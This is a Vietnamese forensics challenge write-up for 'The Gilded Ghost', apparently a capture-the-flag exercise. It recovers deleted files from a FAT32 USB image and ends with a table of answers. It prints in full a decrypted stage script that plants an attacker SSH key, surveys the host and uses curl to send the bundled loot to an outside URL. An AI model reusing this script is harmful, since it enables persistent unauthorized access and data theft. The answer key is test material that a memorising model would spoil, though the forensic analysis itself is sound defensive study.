





# WRITE UP #
## THE GILDED GHOST ##

### 1. Phân tích ###

**Task 1:** What filesystem is used in the USB image?

- Đề bài cung cấp 1 file tên `usb.img`, sử dụng lệnh `file` để kiểm tra, ta biết đây là một `DOS/MBR boot sector` có phân vùng bắt đầu tại sector `2048`. Vì vậy ta có thể sử dụng `fsstat` để kiểm tra kỹ hơn:



> *DOS/MBR boot sector:* là sector đầu tiên của một thiết bị lưu trữ dùng kiểu phân vùng MBR. Nó chứa boot code và bảng phân vùng, trong đó mỗi entry mô tả thông tin như loại phân vùng, vị trí bắt đầu và kích thước của phân vùng.

> *FAT32:* là một filesystem thuộc họ FAT do Microsoft phát triển, dùng bảng File Allocation Table 32-bit để quản lý cluster và lưu trữ file. Nó thường xuất hiện trên USB, thẻ nhớ và thiết bị lưu trữ rời vì tương thích rộng với nhiều hệ điều hành.

Vậy đáp án là: `FAT32`


**Task 2:** What is the partition start offset (in sectors) for the filesystem?

- Ở câu trên chúng ta đã tìm được đáp án.

Vậy đáp án là: `2048`


**Task 3:** What file explains how to use the payload?

- Mở file `.img` này bằng `FTK Imager` để kiểm tra nội dung của nó:



- Trong ổ đĩa có 5 files, lần lượt là: `D9_manifesto.txt`, `OATH_TO_SILAS_VANE.txt`, `payload.enc`, `README.txt`, `setup.sh`.

- Trong đó ở ảnh trên ta có thể đọc được nội dung của file `README.txt` là hướng dẫn về cách sử dụng `setup.sh` và `payload.enc`. 2 file này đã bị xóa nhưng FTK vẫn có thể đọc được nội dung, để thuận tiện cho các câu sau ta có thể phân tích luôn:

```sh
#!/bin/bash
set -euo pipefail

ENC="payload.enc"
KEY="AllH4!lVANE!!!"

openssl enc -d -aes-256-cbc -pbkdf2 -iter 100000 -salt \
  -pass pass:"${KEY}" \
  -in "${ENC}" \
  -out /tmp/stage.sh

bash /tmp/stage.sh
```



> *openssl:* là một bộ công cụ mã nguồn mở dùng cho các tác vụ mật mã như mã hóa/giải mã dữ liệu, tạo và quản lý certificate, khóa, hash, chữ ký số, cũng như hỗ trợ các giao thức SSL/TLS. Trong lệnh trên, `enc` là chức năng mã hóa/giải mã file của OpenSSL.

- Vậy từ những bước trên ta có thể khôi phục được file `stage.sh` từ nội dung hướng dẫn của `README.txt`.

Vậy đáp án là: `README.txt`


**Task 4:** What is the Sleuth Kit metadata address (inode number shown by fls) for the deleted setup.sh file?

> *Sleuth Kit:* là bộ công cụ forensic dùng để phân tích filesystem image. Trong đó `fls` có thể liệt kê file và metadata address/inode của từng entry, kể cả file đã bị xóa.

- Do đó ta có thể sử dụng lệnh `fls` để kiểm tra metadata của `setup.sh`:

```bash
fls -o 2048 -rd usb.img | grep -i "setup.sh"
```



Vậy đáp án là: `13`


**Task 5:** What encryption algorithm is used to protect the payload? (format: ***-***-***)

- Chúng ta đã phân tích nội dung của file `setup.sh` ở trên.

Vậy đáp án là: `aes-256-cbc`


**Task 6:** What key/passphrase is used to decrypt the encrypted payload?

- Chúng ta đã phân tích nội dung của file `setup.sh` ở trên.

Vậy đáp án là: `AllH4!lVANE!!!`


**Task 7:** What is the attacker's SSH public key comment/identity string?

- Chúng ta tiến hành decode `payload.enc` để thu thập lại `stage.sh`:

```bash
openssl enc -d -aes-256-cbc -pbkdf2 -iter 100000 -salt \
  -pass pass:"${KEY}" \
  -in "${ENC}" \
  -out /tmp/stage.sh
```



- Nội dung của `stage.sh`: 

```sh
#!/bin/bash
set -euo pipefail

EXFIL_URL="http://uplink.korvia.gov:8080/api/v1/ingest"

GHOST_PUB='ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPnCjVpE+SqRDTKLN5IYDYULJGXmAItja5qNt34cma07 D9:GildedWeaver:Ghost'

# --- Persistence: add attacker SSH key ---
mkdir -p "${HOME}/.ssh" 2>/dev/null || true
chmod 700 "${HOME}/.ssh" 2>/dev/null || true

AUTH_KEYS="${HOME}/.ssh/authorized_keys"
touch "${AUTH_KEYS}" 2>/dev/null || true
chmod 600 "${AUTH_KEYS}" 2>/dev/null || true

# Append only if not already present
grep -qxF "${GHOST_PUB}" "${AUTH_KEYS}" 2>/dev/null || echo "${GHOST_PUB}" >> "${AUTH_KEYS}" 2>/dev/null || true

# --- Enumeration ---
OUTDIR="/tmp/gw"
mkdir -p "${OUTDIR}"

{
  echo "[D9] unit=GildedWeaver operator=Ghost"
  date 2>/dev/null || true
  echo
  echo "[whoami]"
  id 2>/dev/null || true
  echo
  echo "[hostname]"
  hostname 2>/dev/null || true
  echo
  echo "[uname]"
  uname -a 2>/dev/null || true
  echo
  echo "[ip]"
  (ip a || ifconfig) 2>/dev/null || true
  echo
  echo "[routes]"
  (ip route || route -n) 2>/dev/null || true
  echo
  echo "[processes]"
  ps aux 2>/dev/null || true
} > "${OUTDIR}/survey.txt"

# Bundle the loot
tar -czf "${OUTDIR}/loot.tar.gz" -C "${OUTDIR}" survey.txt 2>/dev/null || true

# --- Exfil ---
if command -v curl >/dev/null 2>&1; then
  curl -sS -m 3 -X POST -F "file=@${OUTDIR}/loot.tar.gz" "${EXFIL_URL}" >/dev/null 2>&1 || true
fi
```

- Script này thực hiện các việc sau:
  1. Thêm SSH public key của attacker vào `${HOME}/.ssh/authorized_keys` để tạo persistence.
  2. Thu thập thông tin hệ thống như user hiện tại, hostname, kernel, địa chỉ IP, route và process đang chạy.
  3. Ghi kết quả thu thập vào `/tmp/gw/survey.txt`, sau đó nén thành `/tmp/gw/loot.tar.gz`.
  4. Dùng `curl` gửi file `/tmp/gw/loot.tar.gz` tới `http://uplink.korvia.gov:8080/api/v1/ingest`.

Vậy đáp án là: `D9:GildedWeaver:Ghost`


**Task 8:** What is the full path of the file that was exfiltrated?

- Ta thấy biến `OUTDIR` được gán bằng path `"/tmp/gw"`, sau đó nội dung đã bị đánh cắp được nén vào đường dẫn `"${OUTDIR}/loot.tar.gz"`.

Vậy đáp án là: `/tmp/gw/loot.tar.gz`


**Task 9:** What is the exfiltration destination (full URL path)?

- Chúng ta có thể tìm được URL này ở đầu của file `stage.sh`

Vậy đáp án là: `http://uplink.korvia.gov:8080/api/v1/ingest`

### 2. Tổng hợp Câu hỏi và Trả lời ###

<table style="width: 100%; border-collapse: collapse; color: #ffffff; background-color: #1e1e1e; font-family: sans-serif;">
  <thead>
    <tr style="background-color: #333333;">
      <th style="border: 1px solid #444444; padding: 10px; text-align: center; width: 5%;">Task</th>
      <th style="border: 1px solid #444444; padding: 10px; text-align: center; width: 55%;">Question</th>
      <th style="border: 1px solid #444444; padding: 10px; text-align: center; width: 40%;">Answer</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">1</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: left;">What filesystem is used in the USB image?</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">FAT32</td>
    </tr>
    <tr>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">2</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: left;">What is the partition start offset (in sectors) for the filesystem?</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">2048</td>
    </tr>
    <tr>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">3</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: left;">What file explains how to use the payload?</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">README.txt</td>
    </tr>
    <tr>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">4</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: left;">What is the Sleuth Kit metadata address (inode number shown by fls) for the deleted setup.sh file?</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">13</td>
    </tr>
    <tr>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">5</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: left;">What encryption algorithm is used to protect the payload? (format: ***-***-***)</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">aes-256-cbc</td>
    </tr>
    <tr>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">6</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: left;">What key/passphrase is used to decrypt the encrypted payload?</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">AllH4!lVANE!!!</td>
    </tr>
    <tr>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">7</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: left;">What is the attacker's SSH public key comment/identity string?</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">D9:GildedWeaver:Ghost</td>
    </tr>
    <tr>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">8</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: left;">What is the full path of the file that was exfiltrated?</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">/tmp/gw/loot.tar.gz</td>
    </tr>
    <tr>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">9</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: left;">What is the exfiltration destination (full URL path)?</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">http://uplink.korvia.gov:8080/api/v1/ingest</td>
    </tr>
  </tbody>
</table>
